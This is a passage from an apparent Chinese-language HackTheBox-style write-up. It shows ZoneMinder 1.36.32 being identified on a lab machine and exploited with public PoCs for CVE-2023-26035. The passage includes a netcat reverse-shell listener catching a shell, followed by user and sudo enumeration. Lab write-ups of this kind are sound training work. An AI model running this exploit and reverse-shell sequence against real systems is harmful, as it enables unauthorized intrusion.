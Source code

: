 看了眼项目文件夹里也的确没有 `/zm/` 文件夹。看了看php代码与配置：
```bash
matthew@surveillance:/usr/share/zoneminder/www$ grep -v '^//' index.php | head -n 30
 (...)
require_once('includes/config.php');
require_once('includes/session.php');
require_once('includes/logger.php');
require_once('includes/Server.php');

if ( 0 and ZM\Logger::fetch()->debugOn() ) {


matthew@surveillance:/usr/share/zoneminder/www$ grep -v '^//' includes/config.php | head
<?php

define( 'ZM_CONFIG', '/etc/zm/zm.conf' );               // Path to config file
define( 'ZM_CONFIG_SUBDIR', '/etc/zm/conf.d' ); // Path to config subfolder
define( 'ZM_VERSION', '1.36.32' );               // Version
define( 'ZM_DIR_TEMP', '/tmp/zm' );
define( 'ZM_DIR_CACHE', '/var/cache/zoneminder' );
global $configvals;

$configFile = ZM_CONFIG;
```

发现版本 `1.36.32`。  
正好和上面[github的这个](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-222j-wh8m-xjrx)里说的版本一样。但是实际部署结构似乎又和文章里写的略有不同。如无法访问 `/zm/index.php` 确认ZoneMinder的版本。以及虽然没有 `web/ajax/events.php` 文件，不过有 `www/ajax/events.php`。应该对应一下实际文件夹结构就可以利用？但是看PoC代码发送的请求目标URL还是  `/zm/index.php`，没有这个文件的话估计无法利用……

接着github搜搜 `ZoneMinder exploit`，发现下面两个 `CVE-2023-26035` 的PoC，符合漏洞版本。看了下代码果然是利用CSRF那个值啊。

> 1. <https://github.com/rvizx/CVE-2023-26035/tree/main>
> 1. <https://github.com/m3m0o/zoneminder-snapshots-rce-poc/tree/main>

### PoC (CVE-2023-26035)

下载上面第一个PoC后运行，成功getshell：
```bash
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.245] 48854
bash: cannot set terminal process group (1107): Inappropriate ioctl for device
bash: no job control in this shell
zoneminder@surveillance:/usr/share/zoneminder/www$ id
id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
```

家目录里啥都没，不过发现无密码sudo：
```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ cd /home     
cd /home
zoneminder@surveillance:/home$ ls
ls
matthew
zoneminder
zoneminder@surveillance:/home$ ls zoneminder
ls zoneminder
zoneminder@surveillance:/home$ sudo -l
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
```